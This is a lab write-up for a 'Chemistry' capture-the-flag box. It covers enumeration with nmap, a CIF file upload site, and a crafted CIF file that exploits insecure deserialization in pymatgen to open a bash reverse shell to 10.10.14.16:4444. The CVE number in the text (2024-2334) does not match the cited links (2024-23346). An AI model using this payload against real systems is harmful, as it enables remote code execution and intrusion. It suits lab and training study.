 # Chemistry - Linux(Easy)

## Summary

## Inital startup
Check that you have successfully connected to the VPN and you can reach the box.

```
openvpn lab_connection.ovpn
ping <target IP>
```

## Enumeration
Begin enumeration on the host by running an Nmap scan. 

```
sudo nmap -sC -sV <target IP>

-sC 
-sV Version Scan
```

![nmap](Images/nmap.png)

We can see that there appears to be a HTTP web page hosted on port 5000.

## Web Page Investigation
We can try connecting directly to the web page.
```
http://<target IP>:5000
```
We can access the site. This shows a CIF Analyzer with a Login/Register options.

![webPage](Images/webPage.png)

Next we can register and login to the site. This brings us to a CIF file upload page.

![WebDash](Images/WebDash.png)

Download the example CIF file available on the dashboard.

![exampleCIF](Images/exampleCIF.png)


## CIF Vulnerability
Next, we can check if there are any vulnerabilities associated with CIF files that we can use to gain access to the box.

Searching online and we find CVE-2024-2334 which can be used for 'Arbitrary Code Execution in Pymatgen via Insecure Deserialization'.
```
Reference: 
https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346
```
Using the example in the articles we can craft a payload that reaches back to our attacking machine.

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in
().__class__.__mro__[1].__getattribute__
( 
	*[().__class__.__mro__[1]]
	+
	["__sub" + "classes__"]
) () 
if d.__name__ == "BuiltinImporter"]
[0].load_module("os")
.system("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.16/4444 0>&1\'");
0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


